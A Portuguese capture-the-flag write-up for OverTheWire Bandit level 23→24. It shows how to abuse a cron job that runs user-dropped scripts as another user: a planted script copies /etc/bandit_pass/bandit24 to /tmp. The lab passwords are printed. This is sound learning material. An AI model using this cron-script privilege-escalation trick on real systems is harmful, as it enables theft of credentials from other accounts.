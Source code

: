 # [Bandit Level 23-24](https://overthewire.org/wargames/bandit/bandit24.html)

## Descrição original
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Introdução
O objetivo desse level é analisar um programa que está sendo executado em intervalos regulares em **/etc/cron.d/**. Nesse diretório posso verificar as configurações e quais comandos estão sendo utilizados.

O desafio ainda fornece duas notas:

1ª: Será necessário criar um shell-script.

2ª: O script criado será removido assim que for executado, então é interessante manter um cópia por perto.

## Comandos utilizados:

```
ssh: permite que você acesse e controle um computador remoto de forma segura, como se estivesse interagindo diretamente com a máquina.

-p: determina em qual porta a conexão com o servidor será realizada.
```

```
ls: lista o conteúdo do diretório especificado.

-l: lista os arquivos e diretórios de um determinado diretório em formato de lista incluindo detalhes como permissões, grupo e tamanho.
```

```
whoami: exibe o nome do usuário que está atualmente logado no terminal ou no sistema operacional.
```

```
cat: exibe o conteúdo de um ou mais arquivos de texto diretamente no terminal.
```

```
vim: é um editor de texto altamente configurável e poderoso, amplamente utilizado em sistemas Unix-like, como Linux. 

:wq (Write and Quit): Ao combinar os comandos :w e :q, você pode salvar as alterações no arquivo e sair do Vim ao mesmo tempo.
```

```
chmod 755: usado no sistema Linux para alterar as permissões de arquivos e diretórios. 

Primeiro Dígito (7): Representa as permissões do proprietário do arquivo/diretório.
7 em binário é 111, o que significa que o proprietário tem permissão de leitura (4), escrita (2) e execução (1).

Segundo Dígito (5): Representa as permissões do grupo ao qual o arquivo/diretório pertence.
5 em binário é 101, o que significa que o grupo tem permissão de leitura (4) e execução (1), mas não tem permissão de escrita (2).

Terceiro Dígito (5): Representa as permissões de outros usuários (não proprietário e não pertencentes ao grupo).
5 em binário é 101, o que significa que outros usuários têm permissão de leitura (4) e execução (1), mas não têm permissão de escrita (2).
```

## Resolução

```
┌──(lufeltz㉿lufeltz)-[~]
└─$ ssh bandit23@bandit.labs.overthewire.org -p 2220
```

Logo após iniciar essa conexão com o **ssh** informo o password obtido no desafio anterior.

```
bandit23@bandit.labs.overthewire.org's password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

```console
bandit23@bandit:~$ whoami
bandit23
```

Realizado o login vejo quais arquivos estão no diretório **/etc/cron.d/**:

```console
bandit23@bandit:~$ ls -l /etc/cron.d
total 36
-rw-r--r-- 1 root root  62 Apr 23 18:04 cronjob_bandit15_root
-rw-r--r-- 1 root root  62 Apr 23 18:04 cronjob_bandit17_root
-rw-r--r-- 1 root root 120 Apr 23 18:04 cronjob_bandit22
-rw-r--r-- 1 root root 122 Apr 23 18:04 cronjob_bandit23
-rw-r--r-- 1 root root 120 Apr 23 18:04 cronjob_bandit24
-rw-r--r-- 1 root root  62 Apr 23 18:04 cronjob_bandit25_root
-rw-r--r-- 1 root root 201 Jan  8  2022 e2scrub_all
-rwx------ 1 root root  52 Apr 23 18:05 otw-tmp-dir
-rw-r--r-- 1 root root 396 Feb  2  2021 sysstat
```

Como o objetivo é encontrar o password do level **bandit24**, vou visualizar o conteúdo do arquivo **cronjob_bandit24:**

```console
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Dentro desse arquivo existe um código envolvendo o arquivo de script **cronjob_bandit24.sh**.

Note também que o script está sendo executado como o usuário **bandit24.** Portanto o resultado de **whoami** e consequentemente de **$myname** no script **cronjob_bandit24.sh** será **bandit24.**

Vejo o conteúdo do script:

```console
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```

Esse script está basicamente executando e excluindo cada um dos scripts que estejam localizados no diretório **/var/spool/$myname/foo.**

Sabendo disso vou criar um script dentro do diretório **/tmp/desafio23** e depois copiá-lo para **/var/spool/bandit24/foo** para ser executado.

```console
bandit23@bandit:~$ mkdir /tmp/desafio23
bandit23@bandit:~$ vim /tmp/desafio23/script23.sh
```
O **script23.sh** ficou dessa forma:

```console
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/pass_bandit24.txt

```
Como ele será executado como o usuário **bandit24** eu vou utilizar isso para ter acesso ao password desse level e salvá-lo no arquivo **pass_bandit24.txt** que está em meu controle.

    Utilizei o vim, porém poderia ser utilizado qualquer editor de texto para criar o script. No vim depois de abrir o arquivo basta digitar i para começar escrever, utilizar o esc para fechar o modo de escrita e :wq para salvar o conteúdo(w) e sair(q).


O arquivo **script23.sh** possui no momento essas permissões:

```console
bandit23@bandit:~$ ls -l /tmp/desafio23
total 4
-rw-rw-r-- 1 bandit23 bandit23 78 Aug 13 20:56 script23.sh
```

Já que é necessário que ele seja executado em outros usuários vou conceder permissão de execução para todos eles:

```console
bandit23@bandit:~$ chmod 755 /tmp/desafio23/script23.sh
bandit23@bandit:~$ ls -l /tmp/desafio23
total 4
-rwxr-xr-x 1 bandit23 bandit23 78 Aug 13 20:56 script23.sh
```

Como pode ser visto esse arquivo agora tem permissão de execução(x) em todos os usuários.

Agora só falta copiá-lo para **/var/spool/bandit24/foo** e aguardar ele ser executado:

```console
bandit23@bandit:~$ cp /tmp/desafio23/script23.sh /var/spool/bandit24/foo/

bandit23@bandit:~$ ls -l /var/spool/bandit24/foo/script23.sh
-rwxr-xr-x 1 bandit23 bandit23 78 Aug 13 21:08 /var/spool/bandit24/foo/script23.sh    
```

Para confirmar se o arquivo foi executado posso usar o comando ls:
```console
bandit23@bandit:~$ ls /var/spool/bandit24/foo/script23.sh
ls: cannot access '/var/spool/bandit24/foo/script23.sh': No such file or directory
```
Caso apareça essa mensagem de arquivo ou diretório inexistente o arquivo já foi executado e removido.

Após o script ser executado vejo o conteúdo do arquivo **pass_bandit24.txt**.

```console
bandit23@bandit:~$ cat /tmp/pass_bandit24.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

Dessa forma encontro o password do próximo level **bandit24**:

    VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

Por fim saio do usuário atual por meio do comando exit.

```console
bandit23@bandit:~$ exit
logout
Connection to bandit.labs.overthewire.org closed.
```